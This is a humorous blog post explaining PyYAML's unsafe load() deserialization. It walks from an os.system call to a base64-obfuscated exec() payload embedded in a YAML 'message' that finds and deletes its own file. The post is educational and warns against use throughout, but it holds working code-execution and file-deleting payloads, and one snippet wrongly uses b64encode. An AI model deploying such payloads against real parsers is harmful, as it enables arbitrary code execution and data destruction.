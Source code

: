 ```yaml
---
layout: post
date: 2019-12-11 08:52:40 +0000
title: This YAML file will self-destruct in five seconds!
summary: YAML allows you to execute arbitrary code in a parser, even if you really really shouldn't.
tags: python code-crimes

colors:
  index_light: "#527ab2"
  index_dark:  "#8ebaec"
---
```


If you know the *Mission: Impossible* films (or before that, the 1966 TV series), you've surely heard the famous phrase, "This tape will self-destruct in five seconds. Good luck, Jim."
As soon as our hero hears his instructions, the tape emits a cloud of smoke and is rendered useless.

But would this work in 2019?
Modern spies don't use analogue recorders and reel-to-reel tape, they use computers and digital files.
Could we equip them with a message that would self-destruct as soon as they read it?
The answer: yes, but you really shouldn't.

{%
  picture
  filename="tape_recorder.jpg"
  alt="A tape recorder with smoke coming out of it."
  width="750"
%}

It's easy to create an executable file that destroys itself as soon as it runs.
The challenge is to do it in a format that looks innocuous -- at a casual glance, it looks like a plain text file, with no trickery or traps.

Let's talk about [YAML], which is a language for serialising data.
You can use it to store data structures like lists, maps, and text -- similar to JSON or XML -- and it's often used for config files and the like.
It's meant to be human-readable, which is why it's so popular for storing config.
Here's a small example:

```yaml
name: "lexie"
cat_count: 2

cats:
  - name: "Bailey"
    colour: "ochre"
  - name: "Bertie"
    colour: "black"
```

[YAML]: https://en.wikipedia.org/wiki/YAML

The basic YAML syntax allows you to specify simple data structures (lists, maps, and so on), but what if you want to serialise something more complicated?

You can use [tags] in your YAML file to tell the parser that it should treat the data as a more complex object.
For example, the `!square` tag here could tell the parser that rather than treating this value as a string, it should create an instance of the user-defined `Square` class:

```yaml
!square "0,0,10,10"
```

[tags]: https://yaml.org/spec/1.2/spec.html#id2761292

You can also have language-specific tags.
If you run this through a Python YAML parser, it creates a Python tuple instead of a list:

```yaml
!!python/tuple [triangle, square, circle]
```

To do this, your parser needs to be executing arbitrary code, and that's always a recipe for security vulnerabilities.
If you trust your YAML, this is less of an issue -- but if you're parsing YAML from unknown sources, this could be used to run malicious code on your machine.

For a long time, the default `load()` function in the [PyYAML module][pyyaml] was unsafe, and would run any Python code in the YAML it received.
This meant you could call system functions from YAML:

```python
import yaml

yaml.load("!!python/object/new:os.system [echo BOOM!]")
```

but rather than calling `echo BOOM!`, the attacker might call something more unpleasant, like `rm`.

There was a `safe_load()` function that would only load a subset of YAML that didn't feature arbitrary code execution, but it wasn't until earlier this year that safe loading [became the default][deprecation].

[pyyaml]: https://pypi.org/project/PyYAML/
[deprecation]: https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation

Ever since I learnt about this behaviour, I've idly wondered if you could use this to cause the YAML file to delete itself, and yesterday I got that working.
This is shocking, disgusting code, and you shouldn't use it in practice -- but it proves the idea.

Using `os.system` is powerful, but the builtin [`exec()` function][exec] is even more powerful.
If you pass this a string, it tries to execute the string as Python code.
Always be careful when using this function, and *never* call it with untrusted input.

Let's call `exec()` from a YAML file:

```yaml
!!python/object/new:exec [
  name = "Mr Phelps";

  print("Hello %s." % name)
]
```

If you pass this to `yaml.load()` with a vulnerable version of PyYAML (< 5.1), it prints the text `Hello Mr Phelps.` -- but we could do anything we like here.

[exec]: https://docs.python.org/3/library/functions.html#exec

We could, say, look up the ID of the parent process (the Python interpreter that's doing the parsing), and then use [lsof][lsof] to see what files that process has open:

```yaml
!!python/object/new:exec [
  import os;

  parent_process_id = os.getppid();

  os.system("lsof -p %s" % parent_process_id);
]
```

[lsof]: https://linux.die.net/man/8/lsof

And if we can see what files a process has open, well, we could see what YAML file it has open for parsing, and delete it.
I tried to write something like this:

```yaml
!!python/object/new:exec [
  import os;
  import subprocess;
  import sys;
  import time;

  parent_process_id = os.getppid();

  open_files = subprocess.check_output(
      ["lsof", "-p", str(parent_process_id)]
  ).decode("utf8");

  filenames = [
      line.split()[-1]
      for line in open_files.splitlines()
  ];

  yaml_files = [
      f
      for f in filenames
      if f.endswith((".yml", ".yaml"))
  ];

  for yf in yaml_files:
      print(
          "This file will self-destruct in five seconds. Good luck, Jim.",
          file=sys.stderr
      );
      time.sleep(5);
      os.unlink(yf)
]
```

but you get errors from the YAML parser -- the square brackets, quotes, and commas look like they might be part of the YAML syntax, and the parser gets confused.

I hit this problem a couple of times, and I tried to be clever and write my Python code to avoid any of those characters, but it severely limits what you can do.
(Among other things, no commas means you can't call functions with more than one argument.)

We can get round this by doubling down on a bad idea.
If you want to get a string through an environment that only allows a limited set of characters, you can often use [base64 encoding][base64].
This encodes your text in a form that only uses alphanumeric characters, plus three punctuation characters (`+`, `/`, and `=`).
If we put base64 encoded source in the YAML file, decode it at runtime, then call `exec()` a second time -- that would get past the YAML parser.

Here's what that would look like:

```yaml
!!python/object/new:exec [
  import base64;

  encoded_source = b"... some base64 encoded source ...";
  source = base64.b64encode(encoded_source);

  exec(source)
]
```

[base64]: https://en.wikipedia.org/wiki/Base64

And if we do this to the code I was trying to run above, here's the message we end up with:

```yaml
from: "Lexie <lexie@alexwlchan.net>"
to: "Jim Phelps <jim.phelps@imf.org>"

message: "Beware Swiss villains bearing lasers!"

action:
  !!python/object/new:exec [
    import base64;

    encoded_source = (
        b"aW1wb3J0IG9zOwppbXBvcnQgc3VicHJvY2VzczsKaW1wb3J0IHN5czsKaW1wb3J0IHRp"
        b"bWU7CgpwYXJlbnRfcHJvY2Vzc19pZCA9IG9zLmdldHBwaWQoKTsKCm9wZW5fZmlsZXMg"
        b"PSBzdWJwcm9jZXNzLmNoZWNrX291dHB1dCgKICAgIFsibHNvZiIsICItcCIsIHN0cihw"
        b"YXJlbnRfcHJvY2Vzc19pZCldCikuZGVjb2RlKCJ1dGY4Iik7CgpmaWxlbmFtZXMgPSBb"
        b"CiAgICBsaW5lLnNwbGl0KClbLTFdCiAgICBmb3IgbGluZSBpbiBvcGVuX2ZpbGVzLnNw"
        b"bGl0bGluZXMoKQpdOwoKeWFtbF9maWxlcyA9IFsKICAgIGYKICAgIGZvciBmIGluIGZp"
        b"bGVuYW1lcwogICAgaWYgZi5lbmRzd2l0aCgoIi55bWwiLCAiLnlhbWwiKSkKXTsKCmZv"
        b"ciB5ZiBpbiB5YW1sX2ZpbGVzOgogICAgcHJpbnQoCiAgICAgICAgIlRoaXMgZmlsZSB3"
        b"aWxsIHNlbGYtZGVzdHJ1Y3QgaW4gZml2ZSBzZWNvbmRzLiBHb29kIGx1Y2ssIEppbS4i"
        b"LAogICAgICAgIGZpbGU9c3lzLnN0ZGVycgogICAgKTsKICAgIHRpbWUuc2xlZXAoNSk7"
        b"CiAgICBvcy51bmxpbmsoeWYpOwogICAgcHJpbnQoIvCfkqUiKTs="
    );
    source = base64.b64decode(encoded_source);

    exec(source)
  ]
```

If Jim Phelps parses this using his special IMF-approved message reader:

```python
import yaml  # PyYAML < 5.1

with open("message.yml") as f:
    message = yaml.load(f)
    print(message)
```

then he sees our message, and then the file will burst into (metaphorical) smoke before his eyes!

This code is dastardly, terrible, and nobody should use it.
It abuses unsafe YAML loading and the `exec()` function, neither of which should ever be used with untrusted input -- or ideally at all.
It's also quite fragile; `lsof` behaves differently across platforms, and this likely won't work on macOS or Windows.

Please don't use this for anything serious.
If it explodes, I will disavow any knowledge of your code.
